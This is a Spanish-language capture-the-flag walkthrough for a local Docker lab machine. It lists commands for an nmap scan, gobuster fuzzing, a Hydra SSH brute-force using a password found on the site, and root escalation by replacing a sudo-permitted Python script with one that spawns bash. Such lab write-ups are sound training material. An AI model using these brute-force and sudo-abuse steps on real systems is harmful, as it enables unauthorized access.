 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh library.tar
```

![Pasted image 20250207091231](https://github.com/user-attachments/assets/3dbbe591-61fb-46c3-8894-14e96a0d6905)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250207091255](https://github.com/user-attachments/assets/74d6c49b-220c-467d-9d2f-b0441cc65b9a)

Hacemos **Fuzzing**:

```Bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,py,sh,txt
```

![Pasted image 20250207091554](https://github.com/user-attachments/assets/4f3b8d77-eff8-4516-85e2-09a4d405d986)

Nos metemos en la web:

![Pasted image 20250207091438](https://github.com/user-attachments/assets/f8129a46-e1b0-4dd8-93ad-6cc95ffefefd)

JIFGHDS87GYDFIGD

Fuerza Bruta con **Hydra**:

```Bash
hydra -L /usr/share/wordlists/rockyou.txt.gz -p JIFGHDS87GYDFIGD ssh://172.17.0.2
```

![Pasted image 20250207092055](https://github.com/user-attachments/assets/e430a294-5b33-4472-851b-4eab4a02db38)

Nos conectamos con **SSH**:

```Bash
ssh carlos@172.17.0.2
```

![Pasted image 20250207091820](https://github.com/user-attachments/assets/e09cc5af-3e5b-4474-bca4-c83bfa8d90b5)

Elevamos privilegios:

```Bash
sudo -l
```

![Pasted image 20250207091911](https://github.com/user-attachments/assets/4373258f-d605-47d5-9772-afa8671425d0)

```Bash
cd /opt
```

![Pasted image 20250207091948](https://github.com/user-attachments/assets/5f38d3a4-9e38-47a1-8fad-5411a013aee0)

```Bash
ls
```

![Pasted image 20250207092038](https://github.com/user-attachments/assets/a11d30de-05ba-4eb0-bac4-3b67d3fa5479)

```Bash
cat script.py
```

![Pasted image 20250207092127](https://github.com/user-attachments/assets/2fe845d0-3f99-4263-9c8d-b7059c723b09)

```Bash
rm script.py
```

![Pasted image 20250207092423](https://github.com/user-attachments/assets/532d547b-3c9e-4861-b292-bae294b86470)

```Bash
nano script.py
```

![Pasted image 20250207092304](https://github.com/user-attachments/assets/6e664c26-03df-49cd-9643-c5fea4277071)

```Python
import os

os.system("/bin/bash")
```

![Pasted image 20250207092324](https://github.com/user-attachments/assets/b56020e2-097e-49e8-834c-6515c9a3c076)

```
chmod +x script.py
```

![Pasted image 20250207092514](https://github.com/user-attachments/assets/3e883ced-d7b8-4d5c-bb28-db67b005e4a8)

```Bash
sudo /usr/bin/python3 /opt/script.py
```

![Pasted image 20250207092608](https://github.com/user-attachments/assets/5ebc533f-8bf0-41ed-aba0-dd2d3092ac0b)

```Bash
whoami
```

![Pasted image 20250207092639](https://github.com/user-attachments/assets/15ad1df8-2ebe-4fe5-8e55-4f3ab315bd95)
